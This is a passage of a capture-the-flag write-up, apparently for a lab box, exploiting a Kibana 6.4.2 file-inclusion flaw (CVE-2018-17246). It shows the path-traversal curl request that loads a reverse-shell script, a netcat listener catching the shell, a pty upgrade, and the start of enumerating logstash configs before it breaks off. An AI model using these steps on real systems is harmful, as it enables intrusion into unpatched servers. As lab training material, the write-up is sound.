 <p>Listening only on 127.0.0.1 seems intriguing as an avenue. Knowing that elasticsearch was installed on the box I searched around and it did not take much time to get to - <a href="https://www.elastic.co/guide/en/kibana/6.4/settings.html">this article</a>.

<blockquote>
The default settings configure Kibana to run on localhost:5601. To change the host or port number, or connect to Elasticsearch running on a different machine, you’ll need to update your kibana.yml file. You can also enable SSL and set a variety of other options. Finally, environment variables can be injected into configuration using ${MY_ENV_VAR} syntax.
</blockquote>

<p>We know the version from our initial enumeration. After attempting to glean some information from the port unsuccessfully I stumbled on to <a href="https://github.com/mpgn/CVE-2018-17246">CVE-2018-17246</a>. 

<blockquote>
Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.
</blockquote>

<p>We just happen to have 6.4.2 running, check, and we have access to the console api, double check. We get the reverse shell file over to <code>/tmp</code> where we have write permissions. With everything in place, we set up a listener and kick off the exploit.</p>

{% highlight shell %}
[security@haystack tmp]$ curl -XGET 'http://127.0.0.1:5601/api/console/api_server?s5602_version=@@SENSE_VERSION&apis=../../../../../../.../../../../../../../../tmp/pad.js'

----

$nc -lvp 1337
Listening on [0.0.0.0] (family 2, port 1337)
Connection from 10.10.10.115 41274 received!

which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'  
bash-4.2$ id
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
bash-4.2$ 
{% endhighlight %}

<p>User pivot, done. Now the question of the day - what do we have access to as kibana that we didn't as security. After several various dead ends I found something worth taking a deeper look.</p>

{% highlight shell %}
bash-4.2$ pwd
/etc/logstash/conf.d
bash-4.2$ ls -latr
ls -latr
total 16
drwxr-xr-x. 3 root   root   183 Jun 18 22:15 ..
-rw-r-----. 1 root   kibana 131 Jun 20 10:59 filter.conf
-rw-r-----. 1 root   kibana 186 Jun 24 08:12 input.conf
-rw-r-----. 1 root   kibana 109 Jun 24 08:12 output.conf
drwxrwxr-x. 2 root   kibana  72 Oct  6 15:35 .
-rw-r--r--. 1 kibana kibana 102 Oct  6 15:35 ok
bash-4.2$ cat filter.conf	
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}